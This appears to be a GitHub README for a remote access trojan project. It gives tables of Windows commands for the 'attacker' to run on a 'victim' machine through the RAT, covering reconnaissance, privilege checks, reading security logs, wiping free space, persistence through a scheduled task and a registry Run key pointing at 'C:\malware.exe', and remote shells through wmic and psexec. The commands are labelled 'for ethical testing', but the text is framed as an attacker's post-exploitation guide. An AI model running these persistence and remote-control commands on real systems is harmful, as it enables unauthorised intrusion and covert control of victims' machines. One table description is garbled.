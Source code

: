 # List of useful commands for attacker (Windows) using Remote Access Trojan (RAT)

### 1. Basic System Information

| Command        | Description           
| ------------- |:-------------:| 
| systeminfo      | Lists OS, hardware, and patch details | 
| hostname      | 	Shows the computer name      |  
| whoami        |   Displays current user |
| wmic csproduct get name | are neat      |   



### 2. Network Diagnostics

| Command        | Description           
| ------------- |:-------------:| 
| ipconfig /all      | Shows full network configuration | 
| netstat -ano      | 	Lists all active connections and portse      |  
| ping google.com        |   Tests internet connectivity |
| tracert 8.8.8.8 | 	Traces network route to a host      |   


### 3.  User & Permission Management

| Command        | Description           
| ------------- |:-------------:| 
| net user      | Lists all user accounts | 
| net localgroup administrators      | 	Shows admin users      |  
| whoami /priv        |   	Checks current user privileges |


### 4. File System Operations

| Command        | Description           
| ------------- |:-------------:| 
| dir C:\      | Lists files in a directory | 
| type C:\file.txt      | 	Views file contents      |  
| del /s C:\temp\file.txt        |   	Deletes a file |
| copy C:\file.txt C:\backup\        |   	Copies files |



### 5. Process & Service Control
| Command	| Description |
| ------------- |:-------------:| 
| tasklist |	Lists running processes |
| taskkill /IM notepad.exe /F |	Force-closes a process |
| sc query |	Lists all Windows services |
| net start |	Shows running services |



### 6. Security & Logs

| Command        | Description           
| ------------- |:-------------:| 
| wevtutil qe Security /rd:true /f:text |	Reads security event logs |
| auditpol /get /category:*	| Checks audit policies |
| cipher /w:C:\ | 	Securely wipes free space |


### 7. Persistence (For Ethical Testing)
| Command        | Description           
| ------------- |:-------------:| 
| schtasks /create /tn "TaskName" /tr "C:\payload.exe" /sc hourly	 | Creates a scheduled task |
| reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v "MyApp" /t REG_SZ /d "C:\malware.exe"	| Adds to startup (registry) |



### 8. Remote Administration (Admin Rights Required)

| Command        | Description           
| ------------- |:-------------:| 
| shutdown /r /t 60 /c "Restarting for updates" |	Reboots the system |
| wmic /node:"CLIENT_IP" process call create "cmd.exe"	| Runs commands remotely (WMIC) |
| psexec \\CLIENT_IP -u USER -p PASS cmd.exe	| Remote shell (PsExec from Sysinternals) |









---

Important:

In Visual Studio Code terminal,
1. Run the client.py (Client OS / Victim OS) 
2. Run the server.py (Server / Attacker OS)
3. Do the above commands in `server.py`  terminal:

![image](https://github.com/user-attachments/assets/61be0116-a17a-4739-ae48-9feed7196263)













